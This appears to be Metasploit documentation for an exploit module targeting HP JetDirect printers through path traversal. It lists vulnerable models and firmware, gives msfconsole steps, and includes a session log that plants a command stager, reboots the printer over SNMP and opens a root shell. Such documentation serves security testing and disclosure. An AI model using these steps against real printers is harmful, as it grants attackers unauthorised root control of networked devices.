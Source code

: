 ## Vulnerable Devices

  Impacted printers have a firmware version below 1708D.

  | Product Name                             | Model                          |
  | ---------------------------------------- | -------------------------------|
  | HP PageWide Managed MFP P57750dw         | J9V82A, J9V82B, J9V82C, J9V82D |
  | HP PageWide Managed P55250dw             | J6U55A, J6U55B, J6U55C, J6U55D |
  | HP PageWide Pro MFP 577z                 | K9Z76A, K9Z76D                 |
  | HP PageWide Pro 552dw                    | D3Q17A, D3Q17C, D3Q17D         |
  | HP PageWide Pro MFP 577dw                | D3Q21A, D3Q21C, D3Q21D         |
  | HP PageWide Pro MFP 477dw                | D3Q20A, D3Q20B, D3Q20C, D3Q20D |
  | HP PageWide Pro  452dw                   | D3Q16A, D3Q16B, D3Q16C, D3Q16D |
  | HP PageWide Pro MFP 477dn                | D3Q19A, D3Q19D                 |
  | HP PageWide Pro  452dn                   | D3Q15A, D3Q15B, D3Q15D         |
  | HP PageWide MFP 377dw                    | J9V80A, J9V80B                 |
  | HP PageWide 352dw                        | J6U57B                         |
  | HP OfficeJet Pro 8730 All-in-One Printer | D9L20A                         |
  | HP OfficeJet Pro 8740 All-in-One Printer | D9L21A                         |
  | HP OfficeJet Pro 8210 Printer            | D9L63A, D9L64A                 |
  | HP OfficeJet Pro 8216 Printer            | T0G70A                         |
  | HP OfficeJet Pro 8218 Printer            | J3P68A                         |

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/misc/hp_jetdirect_path_traversal`
  3. Do: `set rhost <hostname>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

### HP OfficeJet Pro 8210 Printer

  The following demonstrates the exploit against a vulnerable printer model.
  When the user is finished with the command shell session, they press control-c and
  respond yes to abort the session. This action sends the `CommandShellCleanupCommand`
  of the `cmd/unix/bind_busybox_telnetd` payload to the server in order to kill
  telnetd that was used to get the command shell.

  ```
  msf > use exploit/linux/misc/hp_jetdirect_path_traversal
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > set rhost 192.168.1.107
  rhost => 192.168.1.107
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > exploit

  [*] 192.168.1.107:9100 - Exploiting...
  [*] Started bind handler
  [*] 192.168.1.107:9100 - Connecting to port 9100...
  [*] 192.168.1.107:9100 - Attempting to write command stager...
  [+] 192.168.1.107:9100 - Successfully wrote command stager to 0:/../../rw/var/etc/profile.d/dLDZtDsh.sh
  [*] 192.168.1.107:161 - Connecting to SNMP port 161...
  [*] 192.168.1.107:161 - Initial value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Attempting to restart printer via SNMP...
  [*] 192.168.1.107:161 - Set prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 4
  [*] 192.168.1.107:161 - Current value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Printer restarting...
  [*] Command shell session 1 opened (192.168.1.101:38141 -> 192.168.1.107:4444) at 2017-12-31 21:09:40 -0600


  [root@HPC2A3FB ]# id
  id
  uid=0(root) gid=0(root)
  [root@HPC2A3FB ]# ^C
  Abort session 1? [y/N]  y

  [*] 192.168.1.107 - Command shell session 1 closed.  Reason: User exit
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > 
  ```
